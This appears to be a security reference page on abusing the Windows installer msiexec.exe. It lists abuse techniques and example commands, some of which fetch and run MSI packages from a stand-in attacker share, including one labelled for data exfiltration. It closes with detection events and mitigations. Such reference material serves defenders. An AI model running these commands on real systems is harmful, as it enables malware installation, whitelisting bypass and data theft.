 # msiexec.exe
## What is it?
*```msiexec.exe``` is the Windows installer service executable, used to install, modify, and remove software packages that are distributed in the MSI (Microsoft Installer) format.*
*It provides functionality to execute .msi files for installation or maintenance tasks, and it’s a trusted system binary often used by legitimate software installations.*

## Legitimate Usage
- **Software Installation** → ```msiexec.exe``` is used by administrators and users to install software packages, run updates, or uninstall programs.
- **Software Maintenance** → It's used to perform repairs or modifications to installed applications (e.g., updates or missing files).
- **Administrative Tasks** → IT administrators use ```msiexec.exe``` to silently install or update software on multiple machines across an enterprise network.

## How to abuse it
- **Execution of Malicious MSI Packages** → Attackers can abuse ```msiexec.exe``` to silently execute malicious MSI files that contain payloads or malware.
- **Bypassing Application Whitelisting** → Since ```msiexec.exe``` is a trusted, signed executable, it can be used to run malicious code even if application whitelisting is in place.
- **Privilege Escalation** → Attackers can abuse the MSI installation process to execute payloads that elevate privileges, especially when administrators execute the MSI package with elevated rights.
- **Persistence Mechanism** → Attackers can create MSI packages that automatically execute malicious payloads upon installation, ensuring persistence on the compromised system.

## Example attacks
### 1. Malicious MSI Installation
*Attackers can craft malicious MSI files that contain payloads designed to run once executed by ```msiexec.exe```.*

**Run Malicious MSI Package**

```
msiexec.exe /i C:\path\to\malicious.msi
```

**Effect:**
- The MSI file is executed, and the embedded malicious payload runs, leading to system compromise or malware installation.

### 2. Bypassing Application Whitelisting
*Because ```msiexec.exe``` is a legitimate, trusted binary, attackers can use it to execute malicious MSI files even in environments where application whitelisting is enforced.*

**Execute Malicious MSI via msiexec.exe**

```
msiexec.exe /i \attacker-server\share\malicious.msi
```

**Effect:**
- The trusted Windows installer runs the malicious MSI file, bypassing application whitelisting or antivirus protections.

### 3. Privilege Escalation via Malicious MSI
*Malicious MSI files can be designed to execute commands or payloads with elevated privileges, leading to privilege escalation.*

**Create and Install Privilege Escalating MSI**

```
msiexec.exe /i C:\path\to\privileged.msi
```

**Effect:**
- The malicious MSI file runs with elevated privileges, potentially granting the attacker administrative rights on the system.

### 4. Persistence via MSI Files
*Attackers can create MSI packages that ensure persistence by embedding malicious payloads that run automatically upon installation.*

**Create MSI to Install Malware on Startup**

```
msiexec.exe /i C:\path\to\malware.msi
```

**Effect:**
- The MSI file installs malware and may add registry keys or tasks that ensure the malware runs on startup, establishing persistence on the system.

### 5. Silent Exfiltration via MSI
*Attackers can use MSI files to silently execute commands that steal data from the system or exfiltrate it without raising alarms.*

**Create MSI for Silent Data Exfiltration**

```
msiexec.exe /i \attacker-server\share\exfil.msi
```

**Effect:**
- The MSI file runs, executing embedded scripts or commands to exfiltrate sensitive data to a remote server, all without user interaction or alerting security software.

# Detection & Mitigation
## Detection Methods
**Monitor for Unusual msiexec.exe Activity**
- **Event ID 4688 (Process Creation)** → Track the execution of ```msiexec.exe``` to ensure it's being used for legitimate purposes.
- **Look for Suspicious MSI Files** → Watch for the execution of MSI files from unusual or temporary locations or network shares.

**Monitor for Elevated Privileges**
- **Event ID 4672 (Special Privileges Assigned to New Logon)** → Detect when ```msiexec.exe``` is executed with elevated privileges or system-level access.

**Detect Silent Installation**
- **Event ID 11707 (MsiInstaller Event)** → Look for suspicious MSI installations that don’t correspond with normal user or administrative activity.

## Mitigation Strategies
- **Application Whitelisting** → Use tools like AppLocker or Device Guard to ensure only trusted executables and MSI files can run.
- **Limit Execution of msiexec.exe** → Restrict access to ```msiexec.exe``` and limit who can run it, especially under elevated privileges.
- **Monitor File Access Logs** → Keep track of where MSI files are being executed from (e.g., network shares or temporary folders) and alert on suspicious behavior.
- **Restrict Network Shares** → Block untrusted network shares from executing MSI files, particularly those that come from external or unknown sources.
- **Block Known Malicious MSI Files** → Use threat intelligence feeds to block known malicious MSI file hashes and signatures.
